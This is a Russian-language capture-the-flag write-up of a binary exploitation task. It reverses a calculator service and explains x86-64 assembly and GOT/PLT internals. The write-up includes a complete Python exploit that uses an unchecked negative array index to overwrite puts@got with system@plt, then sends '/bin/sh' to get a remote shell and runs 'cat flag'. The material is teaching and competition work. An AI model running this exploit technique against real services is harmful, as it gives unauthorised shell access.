

# Простой калькулятор 🧮

## Описание задачи

Задача: **Простой калькулятор**

Сложность: 

Описание с платформы:

> Very simple, very dimple calculator.

Задание:

```text
nc tasks.duckerz.ru 30008
simple_calc.zip   (бинарь + окружение сервиса)
```

Автор задачи:

```text
Ogurez
```

Первая кровь:

```text
doaz
```

Скрин с названием и описанием:



---

## Первый взгляд 👀

Это **PWN**-задача: даётся сетевой сервис (`nc tasks.duckerz.ru 30008`) и архив с бинарём.
В `simple_calc/`:

- **`simple_calc`** — ELF 64-bit x86-64, динамически слинкован, **not stripped** (символы на месте);
- `Dockerfile` / `docker-compose.yml` / `runservice.sh` — как крутится сервис: `socat` слушает
  порт и на каждое подключение запускает `./simple_calc` (через `run.sh`, таймаут 120с);
- `flag` — файл с флагом (на сервере лежит настоящий; локально — тестовый).

### Зацепки

Так как бинарь **не stripped**, видны имена функций: `add_value`, `summarize`, `multiply`,
`greet`, `main` и **`giiift`**. В импортах есть **`system`**.

Функция с именем **`giiift`** ("gift" — «подарок») и наличие `system` — явные кандидаты на
вектор атаки. При подключении в меню виден пункт **«4) Get gift»**, который её и вызывает.
Дальнейшие детали (что именно делает `giiift` и где уязвимость) разберём реверсом функций.

---

## Инструменты 🧰

- **checksec** — проверить защиты бинаря (NX, PIE, Canary, RELRO). От них зависит сложность.
- **Ghidra / objdump / radare2** — разобрать `main` и функции, найти уязвимый ввод и что делает
  `giiift`, посчитать смещение до адреса возврата.
- **pwntools** (Python) — собрать и отправить эксплойт на сервис (`remote(...)`, `p64(...)`).
- **gdb + pwndbg** — локально отладить, найти offset (cyclic pattern), проверить payload.

---

## План решения

```text
1. Реверс функций: найти уязвимость (оказалось — не ret2win, а перезапись GOT)
2. Определить защиты (PIE выключен -> адреса фиксированы)
3. add_value: произвольная запись -> перезаписать puts@got на system@plt
4. greet: puts(наш_ввод) -> теперь = system(наш_ввод) -> ввести "/bin/sh"
5. Получить шелл -> cat flag
```

---

## Мини-введение в ассемблер x86-64 📚

Чтобы читать дизассемблер ниже, нужна база. Мы смотрим код в синтаксисе **Intel**
(`objdump -M intel`).

### Регистры

Регистр — это «ячейка» внутри процессора (быстрее памяти). 64-битные регистры и их роли здесь:

| Регистр | Роль |
|---|---|
| `rax` | аккумулятор; в него кладут **результат** функции; `eax` — его младшие 32 бита |
| `rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9` | **аргументы функции** по порядку (1-й, 2-й, 3-й, …) |
| `rbp` | **база кадра стека** (точка отсчёта для локальных переменных) |
| `rsp` | **вершина стека** (указатель стека) |
| `rip` | указатель на текущую инструкцию |

Соглашение вызова (System V, Linux x86-64): **1-й аргумент → `rdi`, 2-й → `rsi`, 3-й → `rdx`**,
результат возвращается в `rax`. Это важно: чтобы понять `system(x)`, смотрим, что лежит в `rdi`.

### Синтаксис Intel

Порядок операндов — **`инструкция ПРИЁМНИК, ИСТОЧНИК`**: `mov rdi, rax` означает `rdi = rax`.

### Обращение к памяти

Квадратные скобки `[...]` = «значение в памяти по адресу»:

- `[rbp - 0x8]` — локальная переменная (на 8 байт ниже базы кадра);
- `[rcx + rdx]` — базовый + индексный адрес (`*(rcx + rdx)`);
- `[8*rax]` — масштабирование (для индекса в массив 8-байтовых элементов);
- `qword ptr [...]` — работаем с 8 байтами (qword = 64 бита).

### Ключевые инструкции (все, что встретятся)

| Инструкция | Что делает |
|---|---|
| `mov d, s` | скопировать: `d = s` |
| `lea d, [expr]` | **load effective address** — вычислить адрес/выражение `expr` **без чтения памяти** (часто как арифметика или «взять адрес переменной») |
| `add` / `sub` | сложить / вычесть |
| `cmp a, b` | сравнить (выставляет флаги; сам ничего не меняет) |
| `jle` / `ja` / `jne` … | условный переход по флагам после `cmp` (`jle` = «если ≤», знаковое; `ja` = «если >», беззнаковое) |
| `jmp addr` | безусловный переход |
| `jmp qword ptr [X]` | **непрямой** переход: прыгнуть по адресу, который лежит в памяти по `X` (так работает PLT → GOT) |
| `call f` | вызвать функцию (положить адрес возврата на стек и прыгнуть в `f`) |
| `ret` | вернуться (снять адрес возврата со стека и прыгнуть туда) |
| `push` / `pop` | положить/снять значение со стека |

### Кадр стека функции (пролог)

Почти каждая функция начинается одинаково:

```asm
push rbp            ; сохранить старую базу
mov  rbp, rsp       ; новая база = текущая вершина
sub  rsp, 0x10      ; выделить место под локальные переменные (16 байт)
```

После этого локальные переменные адресуются как `[rbp - смещение]`. Например, в `greet`
инструкция `add rsp, -0x80` выделяет **128 байт** под буфер `buf`, который дальше зовётся
`[rbp - 0x80]`.

С этой базой дизассемблер ниже читается как обычный код.

---

## Разбор функций (реверс) 🔬

Дизассемблируем бинарь и смотрим логику. Защиты: **PIE выключен** — все адреса **фиксированы**
(это ключ ко всему эксплойту): `system@plt = 0x401040`, глобальный массив `nums = 0x404080`.

### `main` — меню и диспетчер

```text
setvbuf(...)                 ; отключить буферизацию
alarm(0xa)                   ; ЛИМИТ 10 секунд на всё
system(0x402111)             ; system("date") -> печать даты в меню (один раз)
loop:
  puts("You can:")           ; заголовок меню (через puts!)
  printf("1) Add value ...") ; пункты меню (через printf)
  ...
  printf("> ")
  scanf("%d", &choice)
  switch(choice):            ; таблица переходов
    1 -> add_value
    2 -> summarize
    3 -> multiply
    4 -> giiift
    5 -> greet
  goto loop
```

Важно: `main` печатает `"You can:"` через **`puts`**, а сам вызывает **`system`** (для `date`).
Запомним это.

### `add_value` (пункт 1) — ПРОИЗВОЛЬНАЯ ЗАПИСЬ ⚠️

```c
scanf("%d", &idx);                       // индекс (знаковый int)
if (idx > 1000) {                        // cmp eax, 0x3e8 ; jle ...
    puts("Too big value"); return;       // проверка ТОЛЬКО сверху!
}
scanf("%lld", &value);                   // значение — полный 8-байтовый qword
nums[idx] = value;                       // nums = 0x404080 ; nums[idx] = *(nums + 8*idx)
puts("Ok, new number");
```

Проверка индекса — **только `idx <= 1000`**, нижней границы нет. `idx` знаковый → можно передать
**отрицательный** индекс, и запись пойдёт **до** массива `nums`. Значение — любое (8 байт).

Это **примитив произвольной записи**: `*(0x404080 + 8*idx) = value` для любого `idx <= 1000`.
Прямо ниже `nums` в памяти лежит **GOT** — таблица адресов внешних функций. Значит мы можем
переписать адрес любой функции.

Тот же кусок в **реальном ассемблере** (с пояснениями к каждой строке — вот где живёт баг):

```asm
; ... scanf("%d", &idx) -> idx в [rbp-0xc] ...
mov    eax, [rbp - 0xc]        ; eax = idx
cmp    eax, 0x3e8              ; сравнить idx с 1000 (0x3e8)
jle    ok                      ; если idx <= 1000 -> продолжить
                               ;   ^-- проверка ТОЛЬКО сверху, нижней НЕТ:
                               ;       -16 <= 1000 -> тоже проходит!
; ... иначе: puts("Too big value"); return ...
ok:
; ... scanf("%lld", &value) -> value (8 байт) в [rbp-0x8] ...
mov    edx, [rbp - 0xc]        ; edx = idx
mov    rax, [rbp - 0x8]        ; rax = value
movsxd rdx, edx                ; ЗНАКОВОЕ расширение idx до 64 бит
                               ;   ^-- поэтому отрицательный idx остаётся отрицательным
lea    rcx, [8*rdx]            ; rcx = 8*idx   (элементы массива по 8 байт)
lea    rdx, [rip + 0x2e61]     ; rdx = &nums (0x404080)
mov    qword ptr [rcx + rdx], rax   ; *(nums + 8*idx) = value   <-- САМА ЗАПИСЬ
```

Два места делают запись «произвольной»: `jle` (нет нижней границы) и `movsxd` (индекс —
знаковый, `-16` не превращается в огромное положительное). Итог — `mov [rcx+rdx], rax` пишет
наш `value` по адресу `nums + 8*idx`, куда мы захотим.

### `greet` (пункт 5) — ЭХО ВВОДА ЧЕРЕЗ `puts` ⚠️

```c
char buf[128];               // add rsp, -0x80  -> буфер 128 байт
printf("Send me your name: ");
scanf("%128s", buf);         // читает имя (переполнения нет: %128s в буфер 128)
printf("Hello ");
puts(buf);                   // <-- ПЕЧАТАЕТ НАШ ВВОД через puts
```

Переполнения стека тут нет (`%128s` ограничивает длину). Но критично другое: **`greet` вызывает
`puts` с нашей строкой**. Если мы подменим `puts` на `system`, то `greet` выполнит
`system(наш_ввод)`.

### `giiift` (пункт 4) — это утечка, а не win

```c
printf("It's for your %p %p", printf_addr, greet_addr);   // 1-й %p = адрес printf
```

`giiift` не запускает `system`, а печатает **рантайм-адрес `printf`** (читая его из
`0x403fd8 = printf@GLOB_DAT`) и адрес `greet`. Это **утечка libc** для обхода ASLR — нужна для
альтернативного пути (ret2libc). Но при выключенном PIE она **не обязательна** (см. ниже).

### Карта GOT (`objdump -R simple_calc`)

```text
0x403fd8  printf      (GLOB_DAT)
0x404000  puts        (JUMP_SLOT)   <-- будем перезаписывать
0x404008  system      (JUMP_SLOT)
0x404010  alarm
0x404018  setvbuf
0x404020  __isoc99_scanf
```

И `nums = 0x404080`. Считаем индекс до `puts@got`:

```text
puts@got = 0x404000
nums     = 0x404080
idx = (0x404000 - 0x404080) / 8 = -0x80 / 8 = -16
```

То есть **`nums[-16]` — это ровно `puts@got`**.

---

## Механика уязвимости: GOT / PLT 🧠

Чтобы понять эксплойт, надо знать, **как программа вызывает библиотечные функции** (`puts`,
`system`, …), которых нет в самом бинаре, а есть в `libc`.

- **PLT (Procedure Linkage Table)** — «трамплины». Когда код делает `call puts`, он на самом деле
  зовёт `puts@plt` — маленький кусочек кода вида:

  ```asm
  puts@plt:  jmp qword ptr [puts@got]     ; прыжок по адресу, лежащему в GOT
  ```

- **GOT (Global Offset Table)** — таблица в памяти данных, где хранятся **реальные адреса**
  функций в libc. `puts@got` содержит настоящий адрес `puts`. (При «ленивом связывании» адрес
  проставляется при первом вызове; дальше он там и лежит.)

То есть **любой вызов `puts(x)` = `jmp *(puts@got)`**. Кто управляет содержимым `puts@got`, тот
управляет тем, куда реально уйдёт вызов.

**Почему GOT можно писать:** защита **Full RELRO** делает GOT только для чтения. Здесь её нет
(Partial RELRO) — GOT **доступна на запись**. А `add_value` даёт нам произвольную запись. Идеальное
совпадение.

### Сборка эксплойта из трёх фактов

1. `add_value` → **произвольная запись** (можем записать что угодно в `puts@got`, т.к.
   `puts@got = nums[-16]`).
2. `greet` → делает **`puts(наш_ввод)`**.
3. **PIE выключен** → `system@plt = 0x401040` — **фиксированный** адрес.

Тогда:

```text
add_value(idx=-16, value=0x401040)   =>   puts@got := system@plt
```

Теперь любой `puts(x)` прыгает в `system@plt`, а тот — в настоящий `system`. Значит `puts(x)`
стал `system(x)`. Осталось дёрнуть `puts` с нужным аргументом — это делает `greet`:

```text
greet: puts("/bin/sh")   =>   system("/bin/sh")   =>   ШЕЛЛ
```

**Почему именно `/bin/sh` (без пробела):** имя читается через `scanf("%128s")`, а спецификатор
`%s` **обрывается на пробеле**. Поэтому команду с пробелом (`cat flag`) передать нельзя — уйдёт
только `cat`. Решение — строка без пробелов `/bin/sh`: получаем интерактивный шелл, а уже в нём
спокойно выполняем `cat flag`.

> Утечка `printf` из `giiift` для этого пути **не нужна** — `system@plt` фиксирован (PIE off).
> Ей пользуются в альтернативном ret2libc-пути (утечка → вычисление libc → адрес `system`).

---

## Эксплойт 💥

Взаимодействуем с сервисом по сокету, ориентируясь на строки-маркеры меню (`> `,
`Index in array: `, `New number: `, `Send me your name: `).

```python
import socket, time

HOST = "tasks.duckerz.ru"
PORT = 30008

SYSTEM_PLT = 0x401040     # system@plt (фиксирован, PIE выключен)
PUTS_GOT   = 0x404000     # puts@got = nums[-16]

def recv_until(sock, marker):
    data = b""
    while marker not in data:
        chunk = sock.recv(4096)
        if not chunk:
            raise ConnectionError("server closed connection")
        data += chunk
    return data

sock = socket.create_connection((HOST, PORT))
recv_until(sock, b"> ")

# 1) ПРОИЗВОЛЬНАЯ ЗАПИСЬ: puts@got := system@plt (idx = -16)
sock.sendall(b"1\n")
recv_until(sock, b"Index in array: ")
sock.sendall(b"-16\n")
recv_until(sock, b"New number: ")
sock.sendall(str(SYSTEM_PLT).encode() + b"\n")   # value = 0x401040
recv_until(sock, b"> ")

# 2) ТРИГГЕР: greet делает puts("/bin/sh") -> теперь = system("/bin/sh") -> шелл
sock.sendall(b"5\n")
recv_until(sock, b"Send me your name: ")
sock.sendall(b"/bin/sh\n")

# 3) ИНТЕРАКТИВ: уже в шелле — читаем флаг
time.sleep(0.3)
sock.sendall(b"cat flag\n")
sock.settimeout(1.5)
out = b""
try:
    while True:
        chunk = sock.recv(4096)
        if not chunk:
            break
        out += chunk
except socket.timeout:
    pass
print(out.decode(errors="replace"))
sock.close()
```

Построчно:

- **`recv_until(sock, marker)`** — читает из сокета, пока не встретит строку-маркер. Нужна,
  чтобы **синхронизироваться** с сервисом: отправлять ввод только когда программа его ждёт
  (иначе рассинхрон и мусор).
- **`recv_until(sock, b"> ")`** — дожидаемся приглашения меню.
- **Шаг 1 (запись в GOT):**
  - `b"1\n"` — выбираем пункт «Add value»;
  - ждём `"Index in array: "` → шлём **`-16\n`** (индекс `puts@got`);
  - ждём `"New number: "` → шлём **`str(0x401040)`** (значение = `system@plt`), т.е. десятичное
    `4198464`. Так `puts@got` становится равен `system@plt`.
- **Шаг 2 (триггер):**
  - `b"5\n"` — пункт «Greeting» (`greet`);
  - ждём `"Send me your name: "` → шлём **`/bin/sh\n`**. `greet` вызывает `puts("/bin/sh")`,
    что теперь = `system("/bin/sh")` → открывается шелл (его stdin/stdout = наш сокет).
- **Шаг 3 (чтение флага):**
  - шлём `cat flag\n` уже шеллу;
  - `sock.settimeout(1.5)` — чтобы финальный цикл чтения не висел вечно;
  - собираем и печатаем ответ — там флаг.

Запуск и результат:

```bash
python3 exploit.py
# ...
# Hello DUCKERZ{...}
```

Флаг:

```text
DUCKERZ{...}
```

(Название флага прямо описывает технику: перезапись **GOT/PLT**.)

---

## Команды, использованные при решении 🛠️

```bash
# опознать бинарь
file simple_calc
# -> ELF 64-bit x86-64, dynamically linked, not stripped

# поведение сервиса (меню)
nc tasks.duckerz.ru 30008

# реверс: функции, дизассемблер, карта GOT
nm simple_calc
objdump -d -M intel simple_calc          # логика main/add_value/greet/giiift
objdump -R simple_calc                    # адреса GOT (puts@got=0x404000, ...)

# эксплойт
python3 exploit.py                        # -> Hello DUCKERZ{...}
```

---

## Итог 🏁

Цепочка решения:

```text
simple_calc: PIE выключен (адреса фиксированы)
-> add_value: индекс без нижней границы -> ПРОИЗВОЛЬНАЯ запись (в т.ч. GOT)
-> greet: делает puts(наш_ввод)
-> puts@got = nums[-16] -> перезаписываем его на system@plt (0x401040)
   => теперь puts(x) == system(x)
-> greet -> ввод "/bin/sh" -> system("/bin/sh") -> шелл
-> cat flag
```

Флаг:

```text
DUCKERZ{...}
```

---

## Текущий статус

Задача решена.

Зафиксировано:

- название, сложность `Easy`, описание, автор `Ogurez`, первая кровь `doaz`;
- сервис `nc tasks.duckerz.ru 30008`, бинарь ELF x86-64 **not stripped**, **PIE выключен**;
- `add_value` — уязвимость **произвольной записи** (индекс проверяется только сверху, `idx<=1000`);
- `greet` — вызывает `puts(наш_ввод)`; `giiift` — утечка адреса `printf` (для альтернативы);
- разобрана механика **GOT/PLT** и Partial RELRO (GOT доступна на запись);
- эксплойт: `add_value(-16, 0x401040)` → `puts@got = system@plt` → `greet("/bin/sh")` →
  `system("/bin/sh")` → шелл → `cat flag`;
- версия через утечку libc падала из-за несовпадения смещений — надёжнее фиксированный `system@plt`;
- получен флаг `DUCKERZ{...}`.

---

Автор: **masquadd :)** ✍️
